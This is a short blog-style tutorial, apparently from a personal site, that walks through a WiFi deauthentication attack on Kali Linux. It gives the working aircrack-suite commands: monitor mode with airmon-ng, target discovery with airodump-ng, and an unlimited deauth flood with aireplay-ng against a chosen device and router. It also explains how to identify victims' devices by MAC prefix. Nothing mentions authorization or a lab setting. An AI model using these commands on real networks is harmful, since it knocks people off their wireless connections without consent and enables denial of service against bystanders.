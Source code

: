 ```yaml
---
title: Wifi Deauthentication attack on Kali linux
date: 2020-03-24
description: "Conducting a wifi deauthentication attack"
tags:
  - hacking
  - linux
---
```


You might have to run these as `sudo` (root). Also, do not be alarmed if your computer does not find your wifi card. A clean reboot will solve the issue.

1.  Get the name if your wireless card : the only one with information.

```bash
iwconfig
```

Mine was `wlp2s0`.

2.  Put the boi is monitor mode. This is to allow it to monitor network traffic.

```bash
airmon-ng start wlp2s0
```

3.  Run `iwconfig` again. It should now have a `mon` at the end. Mine became `wlp2s0mon`.
4.  Run the following to see the list of routers and their corresponding WiFi names. Note the BSSID( that’s the Mac address) of the network of choice, and it’s channel (CH).

```bash
airodump-ng wlp2s0mon
```

5.  Run the following to see the devices connected to this WiFi. These appear under “Station”. It’s the mac address of the device.

```bash
airodump-ng wlan0mon --bssid [routers BSSID here]--channel [routers channel here]
```

To find out what the device is, google the first 3 sections of the device’s mac address, and you can see the device manufacturer info and hence be able to identify the device.

6.  Deauth! Run:

```bash
aireplay-ng --deauth 0 -c [DEVICES MAC ADDRESS] -a [ROUTERS MAC ADDRESS] wlp2s0mon
```

0 is for infinite attacks, until manually stopped. Specify a number of choice for finite number of attacks.

### References:

[This cool hackernoon article.](https://hackernoon.com/forcing-a-device-to-disconnect-from-wifi-using-a-deauthentication-attack-f664b9940142)
